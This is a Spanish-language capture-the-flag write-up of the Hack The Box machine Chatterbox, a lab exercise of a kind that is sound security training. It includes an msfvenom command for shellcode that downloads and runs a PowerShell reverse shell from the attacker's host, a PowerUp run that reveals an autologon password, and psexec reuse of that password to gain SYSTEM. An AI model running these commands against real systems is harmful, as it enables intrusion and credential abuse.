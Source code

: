 ```yaml
---
layout: single
title: Chatterbox - Hack The Box
excerpt: "Chatterbox es una maquina windows calificada como media,que posee un servicio web Achat a lo cual contiene una vulnerabilidad de ejecucion de comandos.Luego de entrar la escalada de privilegios es bastante facil,contiene una password expuesta por malas configuraciones."
date: 2022-09-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-chatterbox/chatterbox_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - psexec 
  - msfvenom
  - achat web
---
```


![](/assets/images/htb-writeup-chatterbox/chatterbox_logo.png)

Hoy nos enfrentamos contra Chatterbox que es una máquina Windows que ejecuta un cliente de chat web vulnerable a desbordamientos de búfer remotos. Esta vulnerabilidad se aprovechó para obtener una reverse shell en el host y obtener los indicadores de usuario y root debido a permisos débiles o mal configurados.

## Enumeracion

Empezamos con una simple reconocimiento con nmap,al ejecutarlo podemos ver que corre un servicio achat.

```ruby
nmap -sCV -p135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 10.10.10.74
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 16:12 -03
Nmap scan report for 10.10.10.74
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  mon?
9256/tcp  open  unknown
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h07m00s, deviation: 2h18m34s, median: 4h46m59s
| smb2-time: 
|   date: 2022-09-08T00:00:18
|_  start_date: 2022-09-07T23:56:02
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-07T20:00:19-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.47 seconds
```
Buscamos exploit para dicho servicio que mencionamos anterior mente.

![](/assets/images/htb-writeup-chatterbox/exploit.png)

Y vemos un script en python que gracias a un desbordamiento de buffer logra ejecutar comandos.Sacamos el shellcode que contiene el script y procedemos a crear el nuestro :).

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Ejecutamos el script y tenemos una shell.

![](/assets/images/htb-writeup-chatterbox/powershell.png)
## Elevacion de privilegios

Indagamos un rato por el sistema y no encontramos nada por lo cual se me ocurrio lanzar un script de powersploit llamado PowerUp,dicho script  se encarga de buscar malas configuraciones dentro del sistema.Lo ejecutamos y obtenemos esto.

```powershell
S C:\Users\Alfred\Downloads> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')"       

DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
PS C:\Users\Alfred\Downloads> 
```
Probamos si se esta reutilizando la password para el usuario administrator, y vemos que si.Logramos estar como administrator :).
```bash
impacket-psexec 'WORKGROUP/Administrator:Welcome1!@10.10.10.74' cmd.exe

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.74.....
[*] Found writable share ADMIN$
[*] Uploading file UOAxbKbJ.exe
[*] Opening SVCManager on 10.10.10.74.....
[*] Creating service BYQJ on 10.10.10.74.....
[*] Starting service BYQJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```
